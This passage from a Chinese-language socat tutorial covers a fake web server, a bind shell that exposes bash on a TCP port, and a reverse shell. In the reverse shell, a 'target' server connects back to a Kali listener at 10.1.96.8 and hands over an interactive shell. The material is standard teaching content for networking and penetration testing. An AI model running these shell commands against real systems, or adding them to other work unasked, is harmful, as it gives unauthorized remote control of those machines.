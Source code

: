 ## 5.2、读写分离&假的WebServer

现在本地准备一个假的html: `123.html`。

开启假 webserver 的模式：
```text
socat open:123.html\!\!open:write.txt,create,append tcp-listen:8000,reuseaddr,fork
```
wget 下：
```text
# wget http://127.0.0.1:8000                                                                                                                                                          ✔  10100  12:06:20
--2023-02-13 12:06:40--  http://127.0.0.1:8000/
Connecting to 127.0.0.1:8000... connected.
HTTP request sent, awaiting response... 200 No headers, assuming HTTP/0.9
Length: unspecified
Saving to: 'index.html.4'

index.html.4                                                      [ <=>                                                                                                                                           ]       4  --.-KB/s    in 0s

2023-02-13 12:06:40 (651 KB/s) - 'index.htm' saved [4]
```

# 6、正反向 shell
## 6.1、正向 shell
server 上建立一个 shell：
```text
$ socat TCP-LISTEN:7005,fork,reuseaddr EXEC:/bin/bash,pty,stderr
或者
$ socat TCP-LISTEN:7005,fork,reuseaddr system:bash,pty,stderr
```

client 上连接这个 shell：
```text
socat - tcp:127.0.0.1:7005
或者
socat readline tcp:127.0.0.1:7005  # readline 是 GNU 的命令行编辑器，具有历史功能。
```


## 6.2、反弹 shell
在 kali 上监听 7005 端口，等着 target 机器来连接：
```text
socat -,raw,echo=0 tcp-listen:7005
```
在 target 服务器上连接：
```text
socat tcp-connect:10.1.96.8:7005 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
结果：
```text
在 kali 上可以看到我们拿到了 target 服务器的 shell。
说实话，反弹的意思是，让 target 来反向给我们 kali 的 shell，这个名字起得真好。
```

# 7、参考链接
* [What actually reuseaddr option does in socat?](https://stackoverflow.com/questions/75059280/what-actually-reuseaddr-option-does-in-socat)
* [奇妙的linux世界：Socat 入门教程](https://mp.weixin.qq.com/s/96GQcFN_Avjfu1zvJDVEyg)